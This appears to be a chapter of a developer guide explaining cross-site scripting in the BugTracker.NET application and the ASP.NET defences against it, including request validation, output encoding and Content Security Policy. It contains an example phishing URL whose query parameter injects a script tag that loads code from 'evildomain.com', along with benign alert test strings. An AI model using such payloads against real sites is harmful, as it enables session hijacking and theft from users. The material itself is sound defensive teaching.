

#Cross Site Scripting

One of the most common exploits on the web is cross site scripting or XSS. As you likely know you can embed JavaScript nearly anywhere in the DOM and the browser will happily execute it. This is a throw back to the days when all JavaScript looked like

```
   <button onclick="if(document.forms[0].elements[0].value == '') return false; return true;"/>
```

You may have noticed that you can include script tags in the head (as used to be suggested years ago) and in the footer (as is recommended for most scripts these days).

The problem with this is that it means that if users enter something that looks like JavaScript and the sever returns it then the browser will interpret it as JavaScript and execute it. This sort of behaviour is more common that you would expect. Any time that you show the search criteria that lead to a search results page this is an opportunity for a cross site scripting attack.

Being able to place arbitrary JavaScript on the page opens up all sorts of potential issues. On a login page the JavaScript could capture keystrokes and forward them to an attacker. On other pages actions could be executed. It is even possible that the injected script could perform AJAX actions. That is especiall problematic on a single page application where all actions are executed via AJAX end points. The requests sent from the injected script will carry with them the authentication cookies from the user's session granting it the same permissions as the user.

##Non Persistent XSS

In the case of showing the search criteria this is a non-persistent XSS. Another user will not see your search criteria so they cannot be harmed by anything you enter. This doesn't mean that you're users aren't at risk.

Let's look a bit more at the search example: a user will enter a search string, say "user interface", and then hit 'search'. This will perform a get to the server so that the resulting url would look like

    http://example.com/search.aspx?q=user%20interface

A malicious attacker could send a link with an attack encoded in it to a user via e-mail. That user would click on the link and, being already logged in, would be taken to the search results page where the payload of the attack would be inserted  into the document and executed.

    http://example.com/search.aspx?q=%3Cscript%20src=%27evildomain.com/attack.js%27%3E%3C/script%3E  

At a glance even a well trained user might see nothing wrong with the link. With their script injected into the page the malicious attacker gains control of the legitimate user's session.

##Persistent XSS

If your application ever takes in user input and then displays it you might be vulnerable to XSS. Does that sound like every application in the world? It more or less is. In BugTracker.net there are multiple places where we do this. Any time a new bug is created a user will enter a name and a description. This information is then saved into the database, persisted if you will. Subsequent users will be able to visit this bug page and see the information entered.

This is an example of a persistent XSS, one that can be communicated to other users through regular use of the site. Victims need not do anything other than visit the site to have the attack inflicted upon them.



##Saving Ourselves

There are a couple of approaches to preventing XSS attacks. The first is to prevent an attack payload from ever making it to the server and the second is to prevent it from being shown on the browser. We can use a combination of these two approaches to prevent attacks.

We're lucky in that ASP.net will actually detect malicious payload and block the request. If we try to enter

    <script>alert("hi");</script>

on the edit_org.aspx page in BugTracker.net then we'll see this error message come up.


That's fantastic! We're well protected, right? The protection works by blocking any input that contains angle brackets in the shape of a tag. Well there are times when you actually want to send some limited angle brackets to the server. Consider a rich text editor, we would like to support tags there so that the content can be rendered out properly. In that scenario we would disable the request validation for the page. Request validation can also be disabled globally but that is a terrible idea as it exposes the entire site to exploit instead of just one area: minimize the area of attack.

On a single page we're looking for ValidateRequest to be set to false like so:

```
<%@ Page language="C#" ValidateRequest="false" CodeBehind="search.aspx.cs" Inherits="btnet.search" AutoEventWireup="True" %>
```
The github search is [pretty handy](https://github.com/dpaquette/BugTracker.NET/search?p=2&q=validateRequest%3D%22false%22&type=Code&utf8=%E2%9C%93) for this sort of thing. We can see that there are about 20 places where request validation is explicitly turned off. That's pretty significant as it is approximately 1/6th of the pages in BugTracker.net.  

However an audit of the pages with request validation turned off found no issues. There are some additional built in tools in ASP.net that protect us. The first, and the one that saves us here, is that using code behind to set the value on a field will automatically escape the content.

In a test I entered

    </textarea><script>alert("hi");</script>

into the edit box of edit_comment.aspx, a page with request validation turned off. The markup returned by the server was well escaped

    <textarea name="comment" id="comment" rows="16" cols="80" class="txt resizable">&lt;/textarea&gt; &lt;script&gt;alert(&quot;hi&quot;);&lt;/script&gt;</textarea>

Although unused in BugTracker.net another option is to use <%: instead of <%= when writing out information in an aspx page. This will automatically encode the printed information. The <%= tool is pretty much unused in BugTracker.net as the original author preferred an approach closer to WinForms.

Going forward it would be a good idea to put in either some documentation about the approach to XSS or set up a coding standard that will prevent it. Catching XSS in coding reviews is pretty easy if you're looking for it. That the database contains unescaped data may be worrying to some: a new programmer may assume the data is clean. On the other hand escaping the data in the database means that it must be manually unescape in certain instances. The risk is lower in the case forcing unescaping on rendering than just rendering whatever we have.

Now that we're aware of how XSS is handled by BugTracker.net we can make sure that our programming team (of 2) deals with it properly.  

##The Nuclear Approach

One approach that I really like to preventing XSS is to use the [Content Security Policy](http://www.w3.org/TR/CSP/). This is a special header that instructs the browser how to deal with resources external to the page. By setting this header correctly you can instruct the browser to not run inline scripts and instead run only external scripts. This means that there is no way to inject script content into the HTML page in a way such that it will be executed.

The header is as simple as

    Content-Security-Policy script-src 'self';

However [browser support](http://caniuse.com/#feat=contentsecuritypolicy) for this header remains spotty. It also means that you cannot include anything that you want to work between script tags - all your scripts must be external. I'm a big fan of this approach and I see it taking off in the next few years.

Unfortunately the work needed to split out all the scripts into distinct items in BugTracker.net is monumental. It is something we hope to address but only within the context of a larger rewrite of how JavaScript is handled in BugTracker.net.
